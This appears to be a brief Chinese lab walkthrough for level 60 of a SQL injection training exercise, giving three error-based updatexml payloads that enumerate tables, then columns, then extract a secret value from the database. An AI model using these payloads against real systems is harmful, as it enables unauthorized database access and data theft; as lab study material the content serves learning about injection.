

# 第六十关
查表：")and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) -- qwe

查列：")and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='3s8duz4pa9'),0x7e),1) -- qwe

查数据：")and updatexml(1,(concat(0x7e,(select secret_9RFA from 3s8duz4pa9),0x7e)),1) -- qwe